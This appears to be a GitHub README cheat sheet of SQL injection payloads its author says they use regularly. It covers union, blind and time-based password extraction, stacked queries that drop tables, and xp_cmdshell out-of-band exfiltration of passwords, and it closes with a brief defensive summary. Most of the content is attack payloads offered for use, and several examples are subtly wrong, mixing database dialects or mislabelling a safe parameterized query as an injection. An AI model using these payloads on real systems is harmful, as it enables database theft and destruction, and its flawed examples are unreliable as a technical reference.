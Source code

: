 # SQL-injections
List of injections I use regularly

### **1. Basic SQL Injection**

**1.1 Error-Based SQL Injection:**
- **Description:** Exploits database error messages to gain information.
- **Example:**
  ```sql
  SELECT * FROM users WHERE id = 1' OR 1=1; --
  ```

**1.2 Union-Based SQL Injection:**
- **Description:** Uses the `UNION` operator to combine results from multiple queries.
- **Example:**
  ```sql
  SELECT name, email FROM users WHERE id = 1 UNION SELECT username, password FROM admin;
  ```

**1.3 Boolean-Based SQL Injection:**
- **Description:** Injects boolean conditions to test responses from the database.
- **Example:**
  ```sql
  SELECT * FROM users WHERE id = 1 AND 1=1; -- (True)
  SELECT * FROM users WHERE id = 1 AND 1=2; -- (False)
  ```

**1.4 Time-Based SQL Injection:**
- **Description:** Uses time delays to infer information from the database.
- **Example:**
  ```sql
  SELECT * FROM users WHERE id = 1 AND SLEEP(5); -- Delays response if true
  ```

### **2. Advanced SQL Injection Techniques**

**2.1 Boolean-Based Blind SQL Injection:**
- **Description:** Uses boolean conditions to determine the presence of data indirectly.
- **Example:**
  ```sql
  SELECT CASE WHEN (SUBSTRING((SELECT password FROM users LIMIT 1), 1, 1) = 'a') THEN 1 ELSE 0 END;
  ```

**2.2 Error-Based Blind SQL Injection:**
- **Description:** Leverages detailed error messages to extract information.
- **Example:**
  ```sql
  SELECT * FROM users WHERE id = 1' AND 1=CONVERT(int, (SELECT @@version))--;
  ```

**2.3 Time-Based Blind SQL Injection:**
- **Description:** Combines delays with conditional checks to infer data from the database.
- **Example:**
  ```sql
  SELECT * FROM users WHERE id = 1' AND IF(SUBSTRING((SELECT password FROM users LIMIT 1), 1, 1) = 'a', SLEEP(5), 0)--;
  ```

**2.4 Boolean-Based Time-Based SQL Injection:**
- **Description:** Combines boolean conditions and time-based delays to extract data.
- **Example:**
  ```sql
  SELECT * FROM users WHERE id = 1' AND IF((SUBSTRING((SELECT password FROM users LIMIT 1), 1, 1) = 'a'), SLEEP(5), 0)--;
  ```

**2.5 SQL Injection with Multiple Statements (Stacked Queries):**
- **Description:** Executes multiple SQL queries in a single request.
- **Example:**
  ```sql
  SELECT * FROM users; DROP TABLE users; --;
  ```

**2.6 Second-Order SQL Injection:**
- **Description:** Occurs when injected data is stored and later used in queries.
- **Example:**
  ```sql
  -- First stage
  INSERT INTO comments (comment) VALUES ('a'); -- Injects 'a'
  -- Second stage
  SELECT * FROM users WHERE id = (SELECT comment FROM comments WHERE id = 1);
  ```

**2.7 SQL Injection with Dynamic SQL:**
- **Description:** Exploits dynamically constructed SQL queries.
- **Example:**
  ```sql
  EXEC sp_executesql N'SELECT * FROM users WHERE id = @id', N'@id INT', @id = 1; -- Dynamic execution
  ```

**2.8 SQL Injection via XML Injection:**
- **Description:** Uses XML data to perform SQL injection.
- **Example:**
  ```xml
  <user>
    <id>1</id>
    <password>' OR '1'='1</password>
  </user>
  ```

**2.9 SQL Injection via LDAP Injection:**
- **Description:** Injects SQL-like commands into LDAP queries.
- **Example:**
  ```sql
  uid=admin' OR '1'='1
  ```

**2.10 Blind SQL Injection with Out-of-Band (OOB) Channels:**
- **Description:** Uses external channels to exfiltrate data, such as DNS or HTTP requests.
- **Example:**
  ```sql
  SELECT * FROM users WHERE id = 1; EXEC xp_cmdshell('nslookup ' + (SELECT password FROM users LIMIT 1));
  ```

**2.11 Exploiting Error Messages for Data Extraction:**
- **Description:** Uses detailed error messages to infer database structure or data.
- **Example:**
  ```sql
  SELECT * FROM users WHERE id = 1' AND (SELECT COUNT(*) FROM information_schema.tables) > 5; -- Retrieves table count
  ```

**2.12 Union-Based SQL Injection for Schema Enumeration:**
- **Description:** Uses `UNION` to extract information about database schema, such as table and column names.
- **Example:**
  ```sql
  SELECT table_name FROM information_schema.tables UNION SELECT 1,2,3; -- Retrieves table names
  ```

**2.13 SQL Injection to Modify System Configurations:**
- **Description:** Alters database or system configurations to achieve additional privileges or impact.
- **Example:**
  ```sql
  SET GLOBAL sql_mode = ''; -- Changes SQL mode
  ```

### **Summary**

This compilation provides a comprehensive view of SQL injection types, organized from basic to advanced techniques. Basic types include error-based, union-based, boolean-based, and time-based injections. Advanced techniques encompass various blind injections, dynamic SQL, second-order injections, and complex methods involving XML, LDAP, and out-of-band channels. Understanding these techniques is crucial for both detecting and defending against SQL injection vulnerabilities effectively. Always use secure coding practices such as parameterized queries and prepared statements to mitigate SQL injection risks.
